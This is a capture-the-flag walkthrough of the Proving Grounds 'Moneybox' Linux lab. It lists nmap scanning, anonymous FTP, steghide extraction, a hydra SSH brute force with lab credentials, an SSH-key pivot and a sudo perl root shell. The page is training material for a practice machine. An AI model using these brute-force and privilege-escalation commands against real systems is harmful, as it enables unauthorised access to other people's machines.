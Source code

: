 ```yaml
---
layout: default
title: Moneybox
parent: Proving Grounds - Linux
nav_order: 5
---
```


# Moneybox

---

## Discovered Ports for Enumeration

- _21_ - FTP
- _22_ - SSH
- _80_ - HTTP

## Users and Credentials

- _Users_: renu, lily
- _Credentials_: renu:987654321

# Scanning (Nmap)

---

```bash
sudo nmap -Pn -p- -sC -sV -T4 -vv --open 192.168.162.230
```

# Enumeration

---

## 21 - FTP

Anonymous logon allowed.

Discovered _trytofind.jpg_ and downloaded locally.

![ftp](../../../assets/images/ctfs/proving_grounds/moneybox/ftp.png)

Located the following strings within _trytofind.jpg_

```bash
strings -n 20 trytofind.jpg
456789:CDEFGHIJSTUVWXYZcdefghijstuvwxyz
56789:CDEFGHIJSTUVWXYZcdefghijstuvwxyz
```

## 80 - HTTP

### wfuzz

Found _/blogs_ directory.
Contains secret directory in HTML source code.

![secret](../../../assets/images/ctfs/proving_grounds/moneybox/secret.png)

Found a secret key in the _/S3cr3t-T3xt_ directory source code

![secret2](../../../assets/images/ctfs/proving_grounds/moneybox/secret2.png)

### Steghide

Use _steghide_ to extract file from _trytofind.jpg_ by passing in the discovered secret passphrase _3xtr4ctd4t4_

```bash
steghide extract -sf trytofind.jpg --passphrase 3xtr4ctd4t4
```

![steghide](../../../assets/images/ctfs/proving_grounds/moneybox/steghide.png)

We now have the user _renu_

# Exploitation

---

## Hydra

Use _hydra_ to crack the password for _renu_ on SSH

```bash
hydra -l renu -P '/usr/share/wordlists/rockyou.txt' 192.168.162.230 ssh
```

![hydra](../../../assets/images/ctfs/proving_grounds/moneybox/hydra.png)

SSH to target with credentials _renu:987654321_

# Post-Exploitation

---

## Enumerate Users

Locate the user _lily_ and _.ssh_ directory with an authorized key that can be used to pivot to _lily_

```bash
cd /home/lily/.ssh
ssh lily@127.0.0.1
```

![lily](../../../assets/images/ctfs/proving_grounds/moneybox/lily.png)

## Sudo permissions

We have sudo privileges for _/usr/bin/perl_

![sudo](../../../assets/images/ctfs/proving_grounds/moneybox/sudo.png)

![gtfobins](../../../assets/images/ctfs/proving_grounds/moneybox/gtfobins.png)

Run _perl_ to execute /bin/bash and elevate to a root shell.

```bash
sudo perl -e 'exec "/bin/bash";'
```

![root](../../../assets/images/ctfs/proving_grounds/moneybox/root.png)
